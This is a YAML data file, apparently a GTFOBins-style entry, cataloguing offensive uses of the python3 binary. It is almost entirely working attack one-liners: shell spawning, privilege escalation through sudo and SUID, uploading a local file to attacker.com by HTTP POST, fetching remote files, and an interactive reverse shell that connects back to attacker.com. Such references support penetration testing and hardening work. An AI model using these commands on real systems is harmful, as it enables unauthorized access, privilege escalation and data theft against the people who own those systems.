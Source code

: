 ```yaml
---
functions:
  execute-interactive:
    - code: python3 -c 'import os; os.system("/bin/sh")'
  sudo-enabled:
    - code: sudo python3 -c 'import os; os.system("/bin/sh")'
  suid-enabled:
    - code: ./python3 -c 'import os; os.system("/bin/sh -p")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python3 -c 'import urllib.request as r,urllib.parse as u;from os import environ as e; r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LPORT=8888
        python3 -m http.server $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=where_to_save
        python3 -c 'import urllib.request as u;from os import environ as e; u.urlretrieve (e["URL"], e["LFILE"])'
  reverse-shell-interactive:
    - description: Run <code>socat file:`tty`,raw,echo=0 tcp-listen:12345</code> on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python3 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  file-read:
    - code: python3 -c 'open("file_to_read").read()'
  file-write:
    - code: python3 -c 'open("file_to_write","w+").write("data")'
  load-library:
    - code: python3 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
---
```

